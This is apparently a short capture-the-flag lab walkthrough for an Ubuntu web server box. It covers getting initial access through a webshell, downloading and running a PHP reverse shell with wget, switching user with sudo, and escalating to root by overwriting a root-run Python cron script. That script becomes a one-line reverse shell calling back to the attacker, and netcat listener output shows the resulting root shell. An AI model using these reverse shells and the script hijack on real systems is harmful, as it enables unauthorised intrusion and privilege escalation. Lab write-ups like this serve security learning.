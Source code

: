 -  ubuntu xenial 16.04 based on httpd version 2.4.18
- used the webshell built into the web server to get a php reverse shell
	- built a php rev shell and used wget on victim's machine to download and run it
- initial user `www-data`
	- `sudo -u scriptmanager bash`: to change user to `scriptmanager` which is another user on the machine
	- `python -c  'import pty;pty.spawn('/bin/bash')'`: to get a nicer shell
- `/scripts` folder contains `test.py` and `test.txt` 
	- `test.txt` is being written every minute by root user
- write the following into `test.py`
```python
import socket,os,pty;s=socket.socket();s.connect(('10.10.14.18',7778));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('/bin/sh');
```
- listen on `7778` on attacker's machine and get a root shell!
```
$ nc -nvlp 7778                           
listening on [any] 7778 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.68] 36552
# whoami
whoami
root
```